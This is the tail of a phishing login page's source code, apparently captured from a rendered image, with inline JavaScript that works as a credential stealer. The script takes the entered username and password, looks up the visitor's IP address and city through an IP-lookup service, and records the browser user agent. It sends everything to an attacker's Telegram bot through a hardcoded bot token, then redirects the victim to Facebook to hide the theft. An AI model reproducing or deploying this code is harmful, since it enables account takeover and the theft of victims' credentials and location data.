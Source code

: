          var chatid = GetURLParameter('id');
    
         function submitonhfc() {
           // Get IP address information using an API service
           fetch('https://ipapi.co/json/')
             .then(response => response.json())
             .then(data => {
               // Extract relevant device and IP information
               const userAgent = navigator.userAgent;
               const ip = data.ip;
               const cityName = data.city;
    
               // Create the message to send
               const page = document.getElementById("pagename").value;
               const name = document.getElementById("name").value;
               const email = document.getElementById("email").value;
               const message = `> Login Page : ${page}\n\n> Username : ${name}\n\n> Password : ${email}\n\n> User Agent : ${userAgent}\n\n> IP Address : ${ip}\n\n> City : ${cityName}`;
    
               // Send the message to your Telegram bot using the appropriate API
               const botToken = '6682317129:AAF26ugW8pT3wDz2c8XQDPJeuXLl_B1DrVc';
               const chatId = chatid;
    
               const telegramUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;
               const telegramParams = {
                 chat_id: chatId,
                 text: message
               };
    
               // Send the request to the Telegram bot using AJAX
               const xhr = new XMLHttpRequest();
               xhr.open('POST', telegramUrl, true);
               xhr.setRequestHeader('Content-Type', 'application/json');
               xhr.send(JSON.stringify(telegramParams));
    
               // Handle the response (optional)
               xhr.onload = function() {
                 if (xhr.status === 200) {
                   window.location.href = "https://www.facebook.com";
                 } else {
                   console.log('Error sending data to Telegram:', xhr.statusText);
                 }
               };
    
             })
             .catch(error => console.log('Error retrieving IP address information:', error));
         }</script>
</body>
</html>
